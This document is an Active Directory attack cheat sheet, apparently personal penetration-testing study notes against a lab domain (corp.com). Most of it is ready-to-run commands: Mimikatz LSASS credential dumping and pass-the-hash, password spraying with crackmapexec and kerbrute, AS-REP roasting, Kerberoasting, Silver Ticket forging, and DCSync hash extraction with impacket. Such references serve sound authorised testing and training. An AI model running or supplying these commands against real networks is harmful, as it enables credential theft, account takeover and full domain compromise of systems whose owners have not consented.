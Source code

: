## Active Directory Attack Cheat Sheet

### **Cached AD Credentials**

**READ MORE FROM PASSWORD ATTACKS MODULE**

Windows has **Single Sign-On (SSO)**, so passwords and tickets are stored in memory (LSASS). These credentials can be in **hashed or plaintext** forms.

- **Requirements:** `SYSTEM` privileges or at least `SeDebugPrivilege`
- **Tool:** Mimikatz
- **Module:** `sekurlsa` (interacts with LSASS)

#### **Mimikatz Commands:**

```powershell
# Engaging privileges
mimikatz # privilege::debug

# Dumping Credentials from Memory
mimikatz # sekurlsa::logonpasswords

# Extracting Kerberos Tickets
sekurlsa::tickets
sekurlsa::tickets /export

# Pass-the-Hash (PTH) Attack
sekurlsa::pth /user:Administrator /domain:corp.com /ntlm:<NTLM-HASH> /run:powershell.exe

# Dumping LSASS from a Process Dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords

# Dumping Cached Credentials
sekurlsa::cache
```

---

### **Finding Lockout Policy of AD**

```powershell
PS C:\Users\jeff> net accounts
```

Sample Output:

```
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                30
```

---

### **Password Attacks in AD**

#### **1️⃣ Password Spraying with LDAP**

- **Windows:** Spray-Passwords.ps1
- **Linux:** `crackmapexec`

```powershell
# Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

# Linux
crackmapexec ldap <DC_IP> -u users.txt -p 'Winter2024'
```

#### **2️⃣ Password Spraying with SMB**

```bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

This can help find **local admin privileges** on a machine.

crackmapexec supports  SMB, LDAP, WINRM, MSSQL, RDP.

#### **3️⃣ Password Spraying with TGT Requests**

**Tools:** `kerbrute`, `kinit`

we used kerbrute because it works on windows and linux.

```bash
# Username Enumeration
kerbrute userenum -d corp.com usernames.txt --dc 192.168.1.10

# Password Spraying
kerbrute passwordspray -d corp.com usernames.txt "P@ssword123" --dc 192.168.1.10

# Multiple Users with Multiple Passwords
kerbrute bruteuser -d corp.com user.txt passwords.txt --dc 192.168.1.10
```

---

### **AS-REP Roasting**

Allows retrieval of AS-REQ without pre-authentication.

**Tool:** `GetNPUsers`

```bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

**Windows Alternative:**

```powershell
Rubeus.exe asreproast /nowrap
```

**Finding AS-REP Roastable Accounts:**

- **PowerView:** `Get-DomainUser -PreauthNotRequired`
- **Impacket:** `impacket-GetNPUsers` (automatically detects vulnerable accounts)

---

### **Kerberoasting**

Stealing **service account** credentials linked to **SPNs**.

Simple process here u will ask DC for a service ticket (DC does not check if u have permission for that service). Then u use this ticket to crack hash of that service account.





- **Windows:** `Rubeus.exe`

```powershell
Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

- **Linux:** `impacket-GetUserSPNs`

```bash
impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

---

### **Silver Ticket Attack**

Allows an attacker to forge a **service ticket (TGS)** with elevated privileges.

When u have requested a  service ticket from DC the DC will provide u with a ticket even if u have no access but the access rights of that service will be low to none. So in this attack we have obtained a hash of service from having local administrator rights or from some other attack. This hash can be used to create another ticket which will look real to the service but with high privileges.

#### **Step 1: Extract NTLM Hash**

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

#### **Step 2: Get DC SID**

````powershell
```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
````

SID = S-1-5-21-1987370270-658905905-1781884369 (remove the RID)

**Step 3: Forge a Silver Ticket**

```powershell
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<NTLM-Hash> /user:jeffadmin
```

---

### **Domain Controller Synchronization Attack**

Pretending to another DC. U can ask for object information.

Exploits DC replication rights to extract **NTLM hashes** of all users.

- **Required Privileges:**`Replicating Directory Changes,Replicating Directory Changes All, Replicating Directory Changes in Filtered Set`  rights.


- **Tools:** `mimikatz`, `impacket-secretsdump`

#### **Windows (Mimikatz)**

```powershell
mimikatz # lsadump::dcsync /user:corp\Administrator
```

#### **Linux (Impacket)**

```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"P@ssw0rd!"@192.168.50.70
```

---
## **Relevant Ports**

|Protocol|Port|
|---|---|
|LDAP|389|
|LDAPS|636|
|SMB|445|
|Kerberos|88|
|WinRM|5985, 5986|
|MSSQL|1433|
|RDP|3389|
|DNS|53|
|RPC|135|
|Global Catalog|3268, 3269|

---

## **Summary**

This cheat sheet covers:

- **Credential Dumping** (LSASS, cached credentials, pass-the-hash)
- **Password Attacks** (Spraying with SMB, LDAP, Kerberos TGT requests)
- **Kerberoasting & AS-REP Roasting** (Extracting service account hashes)
- **Silver Ticket Attacks** (Forging service tickets for privilege escalation)
- **Domain Controller Synchronization** (Extracting all user hashes)

This is a structured reference for **Active Directory exploitation** using tools like **Mimikatz, Impacket, CrackMapExec, Rubeus, and Kerbrute**. 🚀


